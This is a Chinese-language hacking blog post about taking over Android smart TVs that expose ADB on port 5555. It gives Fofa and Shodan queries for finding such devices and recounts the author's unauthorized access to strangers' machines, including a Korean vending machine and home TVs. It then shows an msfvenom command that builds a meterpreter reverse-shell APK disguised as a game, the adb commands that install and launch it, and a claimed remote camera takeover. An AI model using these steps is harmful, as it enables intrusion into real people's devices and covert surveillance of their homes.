# 远程黑进智能电视

## 声明

&emsp;&emsp;请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。仅供学习研究。

## 介绍

&emsp;&emsp;在开始之前，我们首先要明白一些事情，市面上的智能电视所搭载的系统分为：Android系统，Apple TV自己的IOS系统，以及三星的Tizen系统。本文主要关注的是安卓系统的智能电视。废话不多说，让我们继续。

&emsp;&emsp;喜欢折腾机器的人应该都熟悉安卓的ADB（全称Android Debug Bridge），通过ADB可以可以直接操作管理Android模拟器或者真实的andriod设备。**换句话说，如果一个机器开启了ADB，并且没有验证，那么任何一个人都可以远程接管这台机器。**

&emsp;&emsp;下面进入我们的重头戏。

## 好戏开始

&emsp;&emsp;首先祭出万能的Fofa和Shodan大哥，我们来看看公网上开着ADB调试的机器有多少吧，我相信你会对结果大吃一惊：

查询语法：```"Android Debug Bridge" && port="5555"```



&emsp;&emsp;下面是Shodan，查询语法：查询语法：```"Android Debug Bridge" "Device" port:5555```



&emsp;&emsp;当然这些数据并不是百分之百准确，到后面的可能就过时了，但是架不住基数大啊。

&emsp;&emsp;到这里你又要说了，是啊确实很多，所以呢？

&emsp;&emsp;别急，下面才是精彩的部分。

## 利用

&emsp;&emsp;让我们随便挑一个韩国的ip看看：


&emsp;&emsp;adb连接上去：（请注意我不会教你adb工具的使用之类，如果要教下去的话那就没完没了了，本文只提供思路）


&emsp;&emsp;What a surprise！我们居然真的连上去了？那现在我们来看看它的屏幕是什么吧：


&emsp;&emsp;等等，这不是智能电视啊？虽然满屏幕韩文看不懂，但这个似乎是个售货机？

&emsp;&emsp;说实话，我对韩文一窍不通，但是通过操控屏幕我似乎在家里点了远程点了一点面包还是咖啡....




&emsp;&emsp;算了不管了，咖啡也喝不到，还是让我们去找电视吧：

## 真 电视

&emsp;&emsp;这个看上去是个电视：



&emsp;&emsp;让我们连连看：


&emsp;&emsp;这才像话哈哈哈，我们去看一下这家伙的电影库存：


&emsp;&emsp;好家伙，都是新电影，品味还不错（希望在我操控他屏幕的时候那个人不会正好在旁边，不然会吓的半死）

&emsp;&emsp;让我们再看一些其他的：




&emsp;&emsp;某人在玩王者荣耀：

&emsp;&emsp;emm....似乎还有一些少儿不宜的内容：




## 更危险的部分

&emsp;&emsp;我们要知道，adb远程调试并不仅仅是看一看屏幕而已，如果一台机子开了adb并且允许远程调试，那就意味着给对方**完全控制**，有了adb权限，我们可以导出通话记录，安装软件，查看信息，远程打开摄像头，安装木马......

&emsp;&emsp;我之前有一篇文章讲了如何做一个木马软件安装包安装到安卓手机里然后完全控制对方的。

&emsp;&emsp;我们先生成一个木马（在这里不需要考虑免杀因为大部分机器上没有杀毒软件）

&emsp;&emsp;``` msfvenom -p android/meterpreter/reverse_tcp LHOST=ip LPORT=port R > angryBirdie.apk```



&emsp;&emsp;然后我们把木马推送到靶机并且启动：

&emsp;&emsp;```adb install angryBirdie.apk```

&emsp;&emsp;```adb shell am start com.metasploit.stage/.MainActivity```



&emsp;&emsp;成功上线：



&emsp;&emsp;打开摄像头：



## 结束

&emsp;&emsp;从数量上来看，应该是有相当一部分厂商的电视是ADB模式默认开启的，一旦这些电视连到互连网上，就会给黑客造成可乘之机，普通用户根本不晓得还开了这个，也没办法关。

&emsp;&emsp;想象一下，当你在家里看电视时，另一双眼睛也在陪你一起看，如果你的平板有摄像头，那很有可能就会有一双眼睛在盯着你。

&emsp;&emsp;同样的，这样的“缺口”并不只存在于智能电视，还有你的手机，平板，自动贩卖机等等......没有绝对的安全。